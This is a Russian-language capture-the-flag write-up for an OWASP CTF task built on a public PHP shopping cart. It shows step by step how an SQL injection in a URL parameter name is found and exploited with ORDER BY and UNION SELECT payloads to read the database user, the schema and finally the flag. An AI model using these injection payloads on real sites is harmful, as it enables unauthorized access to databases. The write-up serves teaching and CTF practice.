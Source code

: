 # Chernihiv (2.owaspctf.gq)

На главной странице видим листинг товаров и сообщение о том что это интернет-магазин.
Погуглив можно даже найти исходники этого интернет магазина: https://github.com/rintoug/Simple-PHP-Shopping-Cart

Отличие только в том что в оригинальном shopping-cart.php нет поиска по товарам.
Запрос для поиска `http://2.owaspctf.gq/shopping-card.php?name=i`
выводит список товаров в имени которых есть символ `i`.

По [create-products.sql](https://github.com/rintoug/Simple-PHP-Shopping-Cart/blob/master/create-products.sql)
(этот файл есть и на 2.owaspctf.gq) видим имена полей в таблице `products`.

Другой вариант "угадать" имя еще какого-нибудь поля это посмотреть на имя параметра при добавлении/удалении товара
из корзины, а именно `sku`.

Пробуем `http://2.owaspctf.gq/shopping-card.php?sku=IPHO` и нам выводится только `Iphone`.

Получается SQL инъекция в имени поля, а не в значении. Проверяем:

```
http://2.owaspctf.gq/shopping-card.php?1=1 => Все товары
http://2.owaspctf.gq/shopping-card.php?1=2 => 0 товаров
```

Уже известно сколько полей в таблице, но можно проверить через order by:

```
http://2.owaspctf.gq/shopping-cart.php?1+order+by+6%23=1 => Fatal error
http://2.owaspctf.gq/shopping-cart.php?1+order+by+5%23=1 => Все товары
```

5 полей. Достаем имя пользователя:

```
http://2.owaspctf.gq/shopping-cart.php?1+like+0+union+select+1,2,3,4,user()%23=1

<img src="not_brutforsable_user@master_2.owaspctf.gq_1.master_default"
```

Через information_schema.tables|columns узнаем что кроме `products` есть таблица `ctf` с единственным полем `flag`

Финальный запрос: `http://2.owaspctf.gq/shopping-cart.php?1+like+0+union+select+1+,2,3,4,(select+flag+from+ctf)%23=1`

`FLAG{PRUF_FOR_ALL_THAT_I_AM_HACKER}`
